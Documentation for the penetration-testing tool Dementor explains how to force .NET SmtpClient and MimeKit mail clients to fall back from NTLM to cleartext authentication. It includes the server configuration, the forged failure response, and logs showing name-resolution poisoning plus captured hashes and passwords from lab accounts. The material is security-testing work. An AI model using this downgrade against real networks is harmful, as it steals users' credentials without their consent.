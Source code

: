 .. _example_smtp_downgrade:

SMTP/IMAP/POP3 Downgrade
========================

The SMTP/POP3/IMAP server in *Dementor* supports a mechanism to attempt a *"downgrade"* of an authentication attempt
initiated by a target host. This behavior is controlled by the :attr:`SMTP/IMAP/POP3.Server.Downgrade` setting.

.. warning::

    This attack specifically targets the `SmtpClient <https://learn.microsoft.com/en-us/dotnet/api/system.net.mail.smtpclient?view=net-9.0>`_
    component of the .NET Core platform. Although `DE0005 <https://github.com/dotnet/platform-compat/blob/master/docs/DE0005.md>`_ marks this component
    as deprecated and advises against its use, this example demonstrates how *Dementor* can be configured to simulate various attack scenarios.


.. tip::

    This attack also works against `MimeKit <https://mimekit.net>`_ due to their design choice when performing
    authentication. **And most importantly, this attack also works for POP3 and IMAP**.

Prerequisites
-------------

First, let's understand how a simple email can be sent using PowerShell on Windows. Some tutorials recommend the standard ``SmtpClient``,
which, while deprecated, is still functional in many environments. Here's a typical example:

.. code-block:: powershell

    $EmailTo = "darth.vader@contoso.local"
    $EmailFrom = "luke@contoso.local"
    $Subject = "Revelation"
    $Body = "I am your father"
    $Server = "MAILSRV"
    $ServerPort = 22
    $Username = "darth.vader"
    $Password = "Anakin123!"
    $Message = New-Object System.Net.Mail.MailMessage($EmailFrom, $EmailTo, $Subject, $Body)
    $Client = New-Object System.Net.Mail.SmtpClient($Server, $ServerPort)
    $Client.UseDefaultCredentials = $false
    $Client.Credentials = New-Object System.Net.NetworkCredential($Username, $Password)
    $Client.Send($Message)

By default, the client won't require secure connections unless ``EnableSsl`` is explicitly set.
If NTLM authentication is available, it will be used **but the client may fall back to weaker mechanisms** such as
``PLAIN`` or ``LOGIN`` if the server offers them or NTLM authentication wasn't successful.


Tricking ``SmtpClient`` into Revealing Cleartext Passwords
----------------------------------------------------------

You can exploit this fallback behavior by configuring *Dementor*'s SMTP server to either accept only plain-text authentication
or simulate a failure after NTLM auth to force the client to downgrade.

1. **Accept only plain authentication (not recommended):**

   Modify the :attr:`SMTP.Server.AuthMechanisms` setting to exclude ``NTLM``:

   .. code-block:: toml

       [SMTP.Server]
       Port = 22
       AuthMechanisms = [ "PLAIN", "LOGIN" ]

   Sample output from *Dementor* after capturing cleartext credentials:

   .. container:: demo

        .. code-block:: console

           SMTP       192.168.56.115            25     [+] Captured Cleartext Password for darth.vader from 192.168.56.115:
           SMTP       192.168.56.115            25     Cleartext Username: darth.vader
           SMTP       192.168.56.115            25     Cleartext Password: Anakin123!

2. **Downgrade after failed NTLM authentication:**

   In environments where clients try NTLM first, you can simulate a failed NTLM attempt and force the client to
   retry using plain-text credentials.

   .. note::

      This only works if the client has the cleartext password available locally. If the credentials are
      provided as NTLM hashes or tokens, the downgrade will fail.

   *Dementor* sends the following response to trigger the fallback:

   .. code-block::

       535 5.7.3 Authentication unsuccessful

   The default Windows SMTP client will retry using cleartext credentials — if they are present.

   .. figure:: /_static/images/smtp-downgrade_wireshark.png
      :align: center
      :alt: Wireshark trace showing SMTP fallback to cleartext auth

      The client reattempts authentication with cleartext credentials after an NTLM failure.


Going Further: Retrieving Credentials from MimeKit
--------------------------------------------------

The documentation for `MimeKit <https://mimekit.net>`_ explains that when authenticating via
the `MailService.Authenticate <https://mimekit.net/docs/html/M_MailKit_MailService_Authenticate_1.htm>`_
method, supported SASL mechanisms will influence how credentials are handled. However, this attack
**will not** work if the client specifies a SASL mechanism directly.

.. pull-quote::
    If the server supports one or more SASL authentication mechanisms, then the SASL mechanisms that both the client and server
    support (not including any OAUTH mechanisms) are tried in order of greatest security to weakest security. Once a SASL
    authentication mechanism is found that both client and server support, the credentials are used to authenticate.

    -- `MimeKit Documentation <https://mimekit.net/docs/html/M_MailKit_MailService_Authenticate_1.htm>`_

Setting up a small program usually costs hours of installing stuff. Once complete, the following script
demonstrates how this behavior is triggered from the client side:

.. code-block:: csharp
    :caption: MailProgram.cs

    using (var smtpClient = new SmtpClient())
    {
        smtpClient.Connect(smtpHost, smtpPort, SecureSocketOptions.StartTls);
        smtpClient.Authenticate("temple.master", "UseTheF0rce");
        smtpClient.Send(message); // message create ommitted here
        smtpClient.Disconnect(true);
    }

By default, no additional configuration is necessary. In the following capture, :attr:`NTLM.ExtendedSessionSecurity`
has been disabled:

.. container:: demo

    .. code-block:: console
        :emphasize-lines: 6,9,10

        MDNS       fe80::b9cb:192d:31db:a0c5 5353   [+] Sent poisoned answer to fe80::b9cb:192d:31db:a0c5
        LLMNR      192.168.56.122            5355   [*] Query for MAILSRV01 (type: AAAA)
        LLMNR      192.168.56.122            5355   [+] Sent poisoned answer to 192.168.56.122
        SMTP       fe80::b9cb:192d:31db:a0c5 25     [+] Captured NTLMv2 Hash for temple.master/ossus.contoso.local from fe80::b9cb:192d:31db:a0c5:
        SMTP       fe80::b9cb:192d:31db:a0c5 25     NTLMv2 Username: temple.master
        SMTP       fe80::b9cb:192d:31db:a0c5 25     NTLMv2 Hash: temple.master::ossus.contoso.local:313333374c454554:e8545823cb69a89c26da9d0b52dc01b7:[...]
        SMTP       fe80::b9cb:192d:31db:a0c5 25     [*] Performing downgrade attack for target fe80::b9cb:192d:31db:a0c5
        SMTP       fe80::b9cb:192d:31db:a0c5 25     [+] Captured Cleartext Password for temple.master@ossus.contoso.local from fe80::b9cb:192d:31db:a0c5:
        SMTP       fe80::b9cb:192d:31db:a0c5 25     Cleartext Username: temple.master@ossus.contoso.local
        SMTP       fe80::b9cb:192d:31db:a0c5 25     Cleartext Password: UseTheF0rce

